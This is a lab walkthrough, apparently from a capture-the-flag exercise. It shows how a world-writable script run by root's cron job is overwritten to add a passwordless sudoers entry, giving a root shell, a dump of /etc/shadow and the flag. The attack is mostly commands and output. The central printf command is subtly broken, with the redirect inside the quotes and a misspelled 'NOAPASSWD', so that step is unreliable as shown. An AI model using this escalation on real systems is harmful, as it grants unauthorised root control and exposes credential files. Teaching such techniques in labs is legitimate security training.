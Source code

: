 - Linux implements task scheduling through a utility called Cron
- Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specific schedule
- An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches.
- The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.
- Cron jobs can also be run as any user on the system, this is a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the `root` user.
- This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with the root access.
- In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

---

Cron is a life save for admins when it comes to doing periodic maintainence tasks on the system. They can even be used in cases where tasks are performed within individual user directories. However, such automations need to be used with caution or can lead to easy privilege escalation attacks.

**Your mission is to get a root shell on the box**and retrieve the flag!

Checking the privileges and the users on system 

```
student@attackdefense:~$ groups
student
student@attackdefense:~$ whoami
student
student@attackdefense:~$ uname -a
Linux attackdefense.com 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
student@attackdefense:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
student:x:999:999:student:/home/app:/bin/sh
```

Checking for Cron tab

```
student@attackdefense:~$ crontab -l
no crontab for student
student@attackdefense:~$ ls -la
total 12
drwxr-xr-x 1 student student 4096 Sep 23  2018 .
drwxr-xr-x 1 root    root    4096 Sep 23  2018 ..
-rw------- 1 root    root      26 Sep 23  2018 message
student@attackdefense:~$ cat message
cat: message: Permission denied
```

As we are unable to check the content of the message let us try to find if there are any mentions of the same file in the system or any code etc using grep

```
student@attackdefense:~$ pwd
/home/student
student@attackdefense:~$ cd /
student@attackdefense:/$ grep -rnw /usr -e "/home/student/message"
/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

Now we got the output that the same message can be viewed from the `/tmp/message` file hope we have permission to view file from the tmp directory.

```
student@attackdefense:/$ cd /tmp/
student@attackdefense:/tmp$ ls
message
student@attackdefense:/tmp$ cat message
Hey!! you are not root :(
```

Okay we got the message now let us go ahead and see the actual bash script to see what it was tasked to do.

```
student@attackdefense:/tmp$ ls -la /usr/local/share/copy.sh
-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
student@attackdefense:/tmp$ cat /usr/local/share/copy.sh
#! /bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message
```

As we see that the only thing that the script is doing it copying the file from the home directory to tmp directory and removing the permissions on it. Let us go ahead and change the script completely and write a one line command it to get us the root privileges.

```
printf '#!/bin/bash\necho "student ALL=NOAPASSWD:ALL" >> /etc/sudoers > /usr/local/share/copy.sh'
```

Once the script is executed our account will be added to the sudoers list and we will be able to execute all the commands without password.

```
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: ALL
student@attackdefense:/tmp$ cd /
student@attackdefense:/$ sudo su
root@attackdefense:/# cat /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
uucp:*:17764:0:99999:7:::
proxy:*:17764:0:99999:7:::
www-data:*:17764:0:99999:7:::
backup:*:17764:0:99999:7:::
list:*:17764:0:99999:7:::
irc:*:17764:0:99999:7:::
gnats:*:17764:0:99999:7:::
nobody:*:17764:0:99999:7:::
_apt:*:17764:0:99999:7:::
student:!:17797::::::
```

```
root@attackdefense:/# whoami
root
root@attackdefense:/# cd /root
root@attackdefense:~# ls
flag
root@attackdefense:~# cat flag
697914df7a07bb9b718c8ed258150164
root@attackdefense:~# crontab -l
*/01 * * * * sh /usr/local/share/copy.sh *
```

